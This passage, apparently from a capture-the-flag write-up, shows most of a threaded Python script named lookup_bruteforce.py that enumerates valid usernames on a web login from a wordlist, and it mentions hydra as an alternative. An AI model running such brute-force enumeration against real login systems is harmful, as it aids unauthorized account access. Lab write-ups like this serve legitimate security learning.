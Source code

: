 ```python
 print(f'[-] Error: {e}')


# Enumerating the usernames

def enumerate_usernames(wordlist):
 threads = []
 # We are opening the wordlist file and reading it, separating each line, so it can test for each username
 with open(wordlist, 'r') as f:
 usernames = f.readlines()
 try:
 # Next, create a progress bar using the tqdm library, also, creating a thread to speed up the process
 for username in tqdm(usernames, desc=f'Bruteforcing... ', unit=" usernames"):
 username = username.strip()
 if username:
 thread = threading.Thread(target=check_username, args=(url, username))
 threads.append(thread)
 thread.start()

 if len(threads) >= THREAD_COUNT:
 for t in threads:
 t.join()
 threads = []
 for t in threads:
 t.join()

 except KeyboardInterrupt:
 print('\n Exiting program..')
 sys.exit(0)


# Setting up final things to be able to execute the script properly
if __name__ == '__main__':
 if len(sys.argv) != 4:
 print('Usage: python3 lookup_bruteforce.py <URl> <WORDLIST> <THREADS>')
 sys.exit(1)

 url = sys.argv[1]
 wordlist = sys.argv[2]
 THREAD_COUNT = int(sys.argv[3])
 enumerate_usernames(wordlist)
 print(f"[+] The total of invalid usernames are: {len(invalid_usernames)}")
 print(f"[+] The total of valid usernames are: {len(valid_usernames)}")
 print(f"\n[+] These are the valid usernames: {valid_usernames}")
```

With the following python code, we can brute force the usernames, this may take some time, so, we can also use the hydra way
